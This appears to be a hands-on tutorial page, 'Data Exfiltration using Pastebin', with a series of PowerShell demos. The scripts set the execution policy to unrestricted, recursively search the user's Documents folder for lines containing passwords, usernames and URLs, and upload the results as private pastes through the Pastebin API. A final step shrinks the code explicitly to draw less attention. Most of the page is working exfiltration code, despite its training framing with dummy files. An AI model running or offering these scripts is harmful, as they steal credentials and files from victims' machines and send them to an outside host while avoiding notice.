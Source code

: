 ```yaml
---
layout: default
title: Data Exfiltration using Pastebin
nav_order: 6
---
```

# First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

You might have to launch powershell as administrator first to change the set-executionpolicy to "unrestricted"

```
set-executionpolicy unrestricted
```

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
## Internet Explorer engine error
You might encounter an error related to the "internet explorer engine", if that's the case: launch internet explorer and click through the initial setup.

![Internet Explorer first setup](/images/IE11.png)

This should fix your issue.

## Preparing more advanced use of Pastebin
Thus far, our data exiltration is public.​ Thanks to the API key we can upload to Pastebin but we need to use authentication to make it private, so let’s make it private​ 😃.

For this we need to setup our “userkey”​

This means we will use 2 keys​: 
1. Our dev key, which we already have​.
2. Our user key, which still needs creation.

### Userkey creation

Create a new file called `get-apiuserkey.ps1`, using the code below.
```
$DevKey     = "PUT-DEV-KEY-HERE"
$Username   = "PUT-PASTEBIN-USERNAME-HERE"
$Password   = "PUT-PASTEBIN-PASSWORD-HERE"
$PasteBinLogin = "https://pastebin.com/api/api_login.php"
$Body = @{ 
    api_dev_key = $DevKey;
    api_user_name	= $Username;
    api_user_password = $Password;
    }

Invoke-WebRequest -Uri $PasteBinLogin -UseBasicParsing -Body $Body -Method Post -OutFile Api_user_key.txt
```
- Fill in the 3 required variables at the top.
- Run the script from the terminal.
- Your userkey is saved in Api_user_key.txt
- Add this key to logindata.ps1


Once this is done… we’re cooking!

### Create some dummy files
For demo purposes we're going to create 2 dummy files: `password.txt` and `secrets.txt` put these 2 files in your documents folder: `C:\Users\$env:username\Documents`

password.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
I do silly things like sometimes putting passwords in files. 
```
secret.txt has the following contents
```
PUT THIS FILE IN C:\Users\$env:username\Documents
this is my secret file
my password for example.com is Kameham3ha!
my username for example.com is ThebrokeShadower
https://www.example.com/login-or-something
```
# Second demo
Create a new file called "new-pastebin2.ps1" and copy paste the following data in it:
```

#Demo 2, let's grab some passwords from local files!
. .\logindata.ps1
$Content    =   ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path
$Title      =   "pastebin2"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Execute new-pastebin2.ps1 from the terminal. If all goes well, you will have this pastebin under your personal account on the pastebin.com website.
But there seems to be a problem?

# Third demo

Powershell stores the data in an object. Which is not bad but invoke-webrequest doesn’t understand it and thus the parsing is bad.
Let’s convert the data to a format which will work.
Create new-pastebin3.ps1 and observe the difference with new-pastebin2.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path)
$Title      =   "pastebin3"

$Body = @{ 
    api_dev_key         = $DevKey;
    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "2"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```


Now launch new-pastebin3.ps1 from the terminal.
Observe the results in your pastebin.com account

# Fourth demo
We want to generate a bit less attention so we will try to have less lines of code on our screen.
Luckily, we can do this by using “;” in powershell
Create new-pastebin4.ps1 and new-pastebin5.ps1

new-pastebin4.ps1
```
. .\logindata.ps1
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin4"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
new-pastebin5.ps1
```
$DevKey="PUT-DEVKEY-HERE";$UserKey="PUT-USER-KEY-HERE"
$Content = ConvertTo-Json (ls c:\users\$env:username\Documents -r | Select-String password,username,http | select line,path); $Title="pastebin5"
$Body = @{ api_dev_key=$DevKey; api_user_key=$UserKey; api_paste_name=$Title;api_paste_code=$Content;api_paste_private="2";api_option="paste";}
Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
Observe the concatenation done in those 2 files.
What is the difference between 4 and 5? Why would this be?
